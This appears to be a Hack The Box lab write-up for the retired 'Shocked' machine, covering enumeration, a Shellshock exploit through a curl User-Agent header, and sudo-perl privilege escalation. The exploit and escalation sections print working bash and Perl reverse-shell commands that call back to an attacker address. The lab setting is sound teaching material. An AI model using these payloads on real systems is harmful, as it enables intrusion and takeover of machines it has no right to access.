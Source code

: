 ```yaml
---
layout: single
title: Shocked Writeup
date: '2020-01-09 12:24:21'
tags:
- hack-the-box
classes: wide
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2020/2020-01-09-shocked-writeup/shocked.png
    text: "https://app.hackthebox.eu/machines/retired"
typora-copy-images-to: ../images/posts/2020/${filename}/
---
```

A straightforward box that teaches you about a very common vulnerability from a few years ago.…

## Enumeration

Running the usual autorecon scan revealed that ports 80 & 2222 were open. Port 80 was running an Apache webserver, whilst port 2222 was running OpenSSH.

The webserver seemed the obvious place to start and revealed a site with an amusing image, but nothing interesting in the source or hidden in the JPEG image, which I ran `strings` over quickly.

Given nothing seemed to be obviously visible I then ran `dirbuster` over the webtree using the `directory-list-2.3-small.txt wordlist`.

This discovered that a `/cgi-bin` directory was present. I stopped the scan that was running over the whole tree and started a new scan restricted to `/cgi-bin` and looking for a number of common script file extensions:


![Screenshot-from-2020-01-09-11-53-04](../images/posts/2020/2020-01-09-shocked-writeup/Screenshot-from-2020-01-09-11-53-04.png)

This quickly discovered `/cgi-bin/user.sh`. Going to the location showed this was a simple script to show the host uptime.

## Exploitation

Given the name of the server and the fact that the script appeared to be a shell script it seemed worth trying the [Shellshock](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29) vulnerability.

We can try and invoke this by using

`curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.17/1234 0>&1' http://10.10.10.56/cgi-bin/user.sh`

which will try and exploit the vulnerability by sending the command we want to run in the User-Agent header. This will create a reverse shell back to our box and does indeed work when executed and gives us a shell as the `shelly` user and we can grab user.txt from /home/shelly.

## Escalation

Running `sudo -l` shows that shelly can run `/usr/bin/perl` as root with no password. Though it'd be easy just to grab the root.txt contents using Perl, it's more fun to get a root shell. We can use the Perl reverse shell below to grab this:
```bash
sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.17";$p=4096;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
with the a listener started with the usual `nc -lvp 4096`. This gets us a full root shell and we can cat `/root/root.txt`

